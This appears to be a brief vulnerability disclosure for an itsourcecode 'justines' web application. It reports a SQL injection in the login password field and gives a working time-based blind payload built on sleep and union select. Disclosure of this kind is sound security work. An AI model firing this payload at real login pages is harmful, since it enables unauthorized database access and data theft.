


# itsourcecode_justines_sql_vul

#### Some information

Vulnerability type: SQL injection

Position: "body"

ParamKey: "log_pword"

payload: "1234'and(select*from(select+sleep(5))a/\*\*/union/\*\*/select+1)='"

#### Process description

On the justines home page, enter payload in the login password field. The injection is effective.

Packet capture data.

